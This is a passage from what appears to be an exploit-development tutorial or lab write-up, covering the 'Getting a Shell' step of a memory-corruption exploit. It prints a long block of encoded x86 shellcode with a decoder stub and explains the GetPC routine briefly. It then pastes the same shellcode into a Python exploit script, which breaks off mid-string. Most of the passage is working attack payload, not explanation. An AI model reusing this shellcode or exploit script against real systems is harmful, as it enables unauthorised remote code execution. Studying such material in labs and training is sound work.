 We get the shellcode:

```
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x9c\xbc\xb0\xbd\x83\xee\xfc\xe2\xf4\x60\x54\x32\xbd"
"\x9c\xbc\xd0\x34\x79\x8d\x70\xd9\x17\xec\x80\x36\xce\xb0"
"\x3b\xef\x88\x37\xc2\x95\x93\x0b\xfa\x9b\xad\x43\x1c\x81"
"\xfd\xc0\xb2\x91\xbc\x7d\x7f\xb0\x9d\x7b\x52\x4f\xce\xeb"
"\x3b\xef\x8c\x37\xfa\x81\x17\xf0\xa1\xc5\x7f\xf4\xb1\x6c"
"\xcd\x37\xe9\x9d\x9d\x6f\x3b\xf4\x84\x5f\x8a\xf4\x17\x88"
"\x3b\xbc\x4a\x8d\x4f\x11\x5d\x73\xbd\xbc\x5b\x84\x50\xc8"
"\x6a\xbf\xcd\x45\xa7\xc1\x94\xc8\x78\xe4\x3b\xe5\xb8\xbd"
"\x63\xdb\x17\xb0\xfb\x36\xc4\xa0\xb1\x6e\x17\xb8\x3b\xbc"
"\x4c\x35\xf4\x99\xb8\xe7\xeb\xdc\xc5\xe6\xe1\x42\x7c\xe3"
"\xef\xe7\x17\xae\x5b\x30\xc1\xd4\x83\x8f\x9c\xbc\xd8\xca"
"\xef\x8e\xef\xe9\xf4\xf0\xc7\x9b\x9b\x43\x65\x05\x0c\xbd"
"\xb0\xbd\xb5\x78\xe4\xed\xf4\x95\x30\xd6\x9c\x43\x65\xed"
"\xcc\xec\xe0\xfd\xcc\xfc\xe0\xd5\x76\xb3\x6f\x5d\x63\x69"
"\x27\xd7\x99\xd4\x70\x15\x22\x39\xd8\xbf\x9c\xbd\x0b\x34"
"\x7a\xd6\xa0\xeb\xcb\xd4\x29\x18\xe8\xdd\x4f\x68\x19\x7c"
"\xc4\xb1\x63\xf2\xb8\xc8\x70\xd4\x40\x08\x3e\xea\x4f\x68"
"\xf4\xdf\xdd\xd9\x9c\x35\x53\xea\xcb\xeb\x81\x4b\xf6\xae"
"\xe9\xeb\x7e\x41\xd6\x7a\xd8\x98\x8c\xbc\x9d\x31\xf4\x99"
"\x8c\x7a\xb0\xf9\xc8\xec\xe6\xeb\xca\xfa\xe6\xf3\xca\xea"
"\xe3\xeb\xf4\xc5\x7c\x82\x1a\x43\x65\x34\x7c\xf2\xe6\xfb"
"\x63\x8c\xd8\xb5\x1b\xa1\xd0\x42\x49\x07\x40\x08\x3e\xea"
"\xd8\x1b\x09\x01\x2d\x42\x49\x80\xb6\xc1\x96\x3c\x4b\x5d"
"\xe9\xb9\x0b\xfa\x8f\xce\xdf\xd7\x9c\xef\x4f\x68"
```

### **2.8 Getting a Shell**

Because of the encoding, the shellcode is not directly executable and is therefore prepended by a decoder stub. The job of this stub is to iterate over the encoded shellcode bytes and decode them back to their original executable form. In order to perform this task, the decoder needs to gather its address in memory and from there, look a few bytes ahead to locate the encoded shellcode that it needs to decode.

As part of the process of gathering the decoder stub's location in memory, the code performs a sequence of assembly instructions, which are commonly referred to as a `GetPC` routine

Update the script to use the shellcode

```python
shellcode = ("\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x9c\xbc\xb0\xbd\x83\xee\xfc\xe2\xf4\x60\x54\x32\xbd"
"\x9c\xbc\xd0\x34\x79\x8d\x70\xd9\x17\xec\x80\x36\xce\xb0"
"\x3b\xef\x88\x37\xc2\x95\x93\x0b\xfa\x9b\xad\x43\x1c\x81"
"\xfd\xc0\xb2\x91\xbc\x7d\x7f\xb0\x9d\x7b\x52\x4f\xce\xeb"
"\x3b\xef\x8c\x37\xfa\x81\x17\xf0\xa1\xc5\x7f\xf4\xb1\x6c"
"\xcd\x37\xe9\x9d\x9d\x6f\x3b\xf4\x84\x5f\x8a\xf4\x17\x88"
"\x3b\xbc\x4a\x8d\x4f\x11\x5d\x73\xbd\xbc\x5b\x84\x50\xc8"
"\x6a\xbf\xcd\x45\xa7\xc1\x94\xc8\x78\xe4\x3b\xe5\xb8\xbd"
"\x63\xdb\x17\xb0\xfb\x36\xc4\xa0\xb1\x6e\x17\xb8\x3b\xbc"
"\x4c\x35\xf4\x99\xb8\xe7\xeb\xdc\xc5\xe6\xe1\x42\x7c\xe3"
"\xef\xe7\x17\xae\x5b\x30\xc1\xd4\x83\x8f\x9c\xbc\xd8\xca"
"\xef\x8e\xef\xe9\xf4\xf0\xc7\x9b\x9b\x43\x65\x05\x0c\xbd"
"\xb0\xbd\xb5\x78\xe4\xed\xf4\x95\x30\xd6\x9c\x43\x65\xed"
"\xcc\xec\xe0\xfd\xcc\xfc\xe0\xd5\x76\xb3\x6f\x5d\x63\x69"
"\x27\xd7\x99\xd4\x70\x15\x22\x39\xd8\xbf\x9c\xbd\x0b\x34"
"\x7a\xd6\xa0\xeb\xcb\xd4\x29\x18\xe8\xdd\x4f\x68\x19\x7c"
"\xc4\xb1\x63\xf2\xb8\xc8\x70\xd4\x40\x08\x3e\xea\x4f\x68"
"\xf4\xdf\xdd\xd9\x9c\x35\x53\xea\xcb\xeb\x81\x4b\xf6\xae"
"\xe9\xeb\x7e\x41\xd6\x7a\xd8\x98\x8c\xbc\x9d\x31\xf4\x99"
"\x8c\x7a\xb0\xf9\xc8\xec\xe6\xeb\xca\xfa\xe6\xf3\xca\xea"
"\xe3\xeb\xf4\xc5\x7c\x82\x1a\x43\x65\x34\x7c\xf2\xe6\xfb"
```